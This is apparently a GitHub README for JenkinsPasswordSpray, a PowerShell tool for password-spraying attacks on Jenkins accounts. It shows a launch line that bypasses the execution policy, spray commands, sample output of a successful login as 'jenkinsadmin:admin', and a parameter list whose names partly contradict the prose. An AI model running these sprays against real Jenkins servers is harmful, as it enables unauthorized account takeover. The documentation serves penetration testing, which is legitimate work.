 # JenkinsPasswordSpray
JenkinsPasswordSpray is a tool witten in PowerShell to perform password spraying attacks against users of a [Jenkins](https://jenkins.io/) instance. Be careful not to lock out accounts!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with `powershell.exe -exec bypass` and import the module with `Import-Module JenkinsPasswordSpray.ps1`.

The mandatory parameters are `-URL`, `-Username`/`-UsernameFile` and `-Password`/`-PasswordFile`.

The following command will spray against a list of users and attempt to authenticate using each username and a password from the specified list. If a valid login is found, the script will stop unless `-ContinueOnSuccess` is set to `$True`. A confirmation will be prompted unless the `-Force` parameter is set. The results of the spray will be output to a file called `sprayed-jenkins.txt`

The script will also try to help you clean up your URL if it's invalid or contains trailing elements like `/login`, as this will make the URL invalid for password spraying. But because your target Jenkins instance might be located in a subdirectory, this feature asks for confirmation before trimming the URL.

Type `Get-Help Invoke-JenkinsPasswordSpra` to see the different options.

### Example command

```PowerShell
Invoke-JenkinsPasswordSpray -URL http://jenkins:8080 -UsernameFile .\users.txt -PasswordFile .\pws.txt -ContinueOnSuccesss $true -Force -Outfile .\sprayed-jenkins.txt
```

### Example command with output

```PowerShell
PS C:\Windows\temp> Invoke-JenkinsPasswordSpray -URL http://10.0.0.7:8080/login/notvalid -Username jenkinsadmin -Password admin -ContinueOnSuccesss $true -Force -OutFile jenkins-sprayed.txt

[-] Detected trailing elements /login/notvalid in provided URL http://10.0.0.7:8080/login/notvalid.
[-] Will now try to remove it for you.
Do you want to use the URL http://10.0.0.7:8080 instead?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[+] Replacing URL: http://10.0.0.7:8080/login/notvalid
[+] Will use this URL: http://10.0.0.7:8080
[+] Testing if URL is valid
[+] Provided URL: http://10.0.0.7:8080 returns 200 OK.

[+] Start password spraying the URL http://10.0.0.7:8080 with 1 user(s) and 1 password(s). Total request count is 1. Current time is 15:21
[+] Writing successful logins to jenkins-sprayed.txt
[Attempt 1 / 1] - Spraying username:jenkinsadmin with password:admin
[+] SUCCESS! Username:jenkinsadmin Password:admin

[+] Password spraying is complete
[*] Any passwords that were successfully sprayed have been written to jenkins-sprayed.txt
```

### Invoke-JenkinsPasswordSpray Parameters

```
-UsernameList      - A list of usernames to spray
-Username          - A single username to spray.
-Password          - A single password to spray for each specified username.
-PasswordList      - A list of passwords, one per line, to use for the password spray.
-ContinueOnSuccess - Continue spraying, even if a valid account is found.
-Force             - Forces the spray to continue without prompting for confirmation.
-OutFile           - A file to output the results to.
```

Please feel free to file issues or pull requests. You can also write to me on Twitter [@chryzsh](https://twitter.com/chryzsh)
